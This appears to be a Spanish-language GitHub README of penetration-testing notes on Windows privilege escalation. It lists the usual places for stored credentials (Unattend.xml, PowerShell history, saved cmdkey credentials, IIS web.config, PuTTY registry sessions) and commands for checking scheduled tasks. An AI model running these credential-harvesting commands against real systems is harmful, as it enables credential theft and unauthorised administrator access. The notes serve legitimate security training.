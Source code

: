 <h1 align="center"> Windows Escala Privilegios </h1>

# INTRODUCCIÓN

Como penetration tester, también nos tocara acceder a sistemas Windows,

La escala de privilegios consiste en ganar acceso del usuario a y ganar acceso al usuario b abusando de una vulnerabilidad siendo por ejemplo el usuario b el adminstrador.


- Malas configuraciones de windows o servicios
- Exceso de privilegios añadidos a la cuenta
- Software vulnerable
- Parches de configuración de windows no instalados

# USUARIOS de Windows

Administrators - usuario con más privilegios
Standard Users - Usuarios que tienen acceso al ordenador por limitaciones

SYSTEM / LocalSystem - Cuenta usada por el sistema operativo para tareas internas
Local Service - Cuenta por defecto para ejecutar servicios con minimos privilegios
Netwok Service - Cuenta de iwndows por defecto para ejecutar privilegios minimos

# Encontrar contraseñas en Spots Usuales

La forma mas facl de ganar acceso a una máquina es una mala configuracion o texto plano de los usuarios, emails o contraseñas

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

![image](https://github.com/user-attachments/assets/342006d1-27ab-4e40-859c-ff96fee06704)

## powershell history

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Credenciales guardadas en windows

```
cmdkey /list
runas /savecred /user:admin cmd.exe
```

## IIS configuracion

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Devolver credenciales por software : Putty

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# TAREAS PROGRAMADAS

Vemos las tareas programas y a ver si podemos modificarlas

```
schtasks /query /tn vulntask /fo list /v
```

```
icacls
```


